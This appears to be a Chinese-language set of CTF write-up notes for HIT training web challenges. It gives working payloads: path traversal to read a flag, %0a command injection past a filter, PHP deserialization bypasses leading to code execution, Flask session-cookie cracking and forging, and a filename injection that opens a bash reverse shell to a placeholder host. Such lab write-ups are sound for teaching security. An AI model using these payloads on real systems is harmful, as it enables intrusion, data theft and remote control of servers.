


## 音乐会 Problem ID: 2



`GET http://train2024.hitctf.cn:26130/get_resource.php?path=../../../flag.txt`




## ex-pingping Problem ID: 4

综合过滤练习
组合拳

过滤了 ; 符号，翻看URL编码，%0a可以实现换行，用%0a代替 ; 符号。

http://train2024.hitctf.cn:26846/?ip=%0a env > 1.txt

http://train2024.hitctf.cn:26846/?ip=%0a more index.php 

```php
::::::::::::::
index.php
::::::::::::::
<?php

$res = FALSE;
$no = FALSE;
$waf = FALSE;

if (isset($_GET['ip'])) {
    if (preg_match('/[|&;*]/',$_GET['ip'])) {
        $waf = TRUE;
    }
    else if (preg_match('/base|cat|tac|head|tail|flag/i',$_GET['ip'])) {
        $no = TRUE;
    }
    else {
        $cmd = "ping -c 4 {$_GET['ip']}";
        exec($cmd, $res);
    }
}

?>

<!DOCTYPE html>
<html>
<head>
<script src="https://cdn.jsdelivr.net/npm/jquery@3.7.1/dist/jquery.min.js"></script>
<link rel="stylesheet" type="text/css" href="https://cdn.jsdelivr.net/npm/fomantic-ui@2.9.3/dist/semantic.min.css">
<script src="https://cdn.jsdelivr.net/npm/fomantic-ui@2.9.3/dist/semantic.min.js"></script>
<title>pingping</title>
<style>
    body > .grid {
      height: 100%;
      margin-top: 100px;
    }
    .column {
      max-width: 450px;
    }
    .img1 {
        height: 250px;
        width: 275px;
    }
</style>
</head>
<body>

<div class="ui middle aligned center aligned grid">
<div class="column">

<h2 class="ui teal image header">
    <div class="content">
        Ping一下吧？
    </div>
</h2>

<form action="#" method="GET" class="ui large form initial">
    <div class="ui stacked segment">
    <div class="field">
        <input type="text" id="ip" name="ip" placeholder="IP">
    </div>
    <input type="submit" value="Ping" class="ui primary button">
</div>
</form>

<pre>
<?php
if ($waf) {
    echo "No you bad hacker...<br>";
}
else if ($no) {
    echo "想要flag?<br>";
    echo "";
}
else if ($res) {
    foreach ($res as $line) {
        if (preg_match('/[{}]/',$line)) die("等等，这输出有问题，你不许读！<br>");
        echo $line.'<br>';
    }
}
?>
</pre>
</div>
</div>
</body>
</html>
```


绕过应用举例

**当反序列化字符串中，表示属性个数的值⼤于真实属性个数时，会绕过 __wakeup 函数的执⾏。**

漏洞影响范围
PHP5 < 5.6.25
PHP7 < 7.0.10

标准序列化结果

`O:4:"User":2:{s:8:"username";s:4:"Lxxx";s:8:"password";s:4:"lxxx";}`

将2改为3 绕过__Wakeup魔法函数

`O:4:"User":3:{s:8:"username";s:4:"Lxxx";s:8:"password";s:4:"lxxx";}`

————————————————

                            版权声明：本文为博主原创文章，遵循 CC 4.0 BY-SA 版权协议，转载请附上原文出处链接和本声明。
                        
原文链接：https://blog.csdn.net/eason612/article/details/130607125


## 反序列化

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
class evil{
    public $cmd;
    public $a;
    public function __destruct(){
        eval($this->cmd.'114514');
    }
}

if(!preg_match('/^[Oa]:[\d]+|Array|Iterator|Object|List/i',$_GET['Pochy'])){
    unserialize($_GET['Pochy']);
} else {
    die("hacker!");
}
```

`O:4:"evil":1:{s:3:"cmd";s:9:"echo 1;//";}`

`C:8:"SplStack":44:{O:4:"evil":1:{s:3:"cmd";s:12:"phpinfo();//";}`

>很经典不能O,a开头，那我们就C开头，不能有ArrayObject，啧，之前ctfshow学到的没用了，最终发现SplStack这个类也能用，然后就是绕__destruct，也就是只能使用[A-Za-z_\(\)]，最后带个; 怎么把givemegirlfriend! 除掉是个问题，__halt_compiler(); 可以中断编译器的执行，不让eval解析后面的就行了，这里没法用引号，所以得构造无参rce，exp如下：

https://www.cnblogs.com/F12-blog/p/17472787.html


## flask
```shell
flask-unsign --unsign --cookie eyJyb2xlIjoiYW5vbnltb3VzIn0.ZnPqiw.nFlXAccc0v_3qOQU5YqV2yam_tA

flask-unsign --sign --cookie "{'role':'admin'}" --secret 'admin123'
```

## flask 反弹shell

student_id注入

```python 
    old_path = saveTmp(delete=False).name
    file.save(old_path)
    new_path = f"uploads/{name}-{student_id}.zip"
    os.system(f"mv {old_path} {new_path}")
```

```shell
#student_id 
123.zip ; bash -c 'exec bash -i &>/dev/tcp/xxx.xxx.xxx.xxx/xxxx <&1' #
123.zip ; env > robots.txt #
```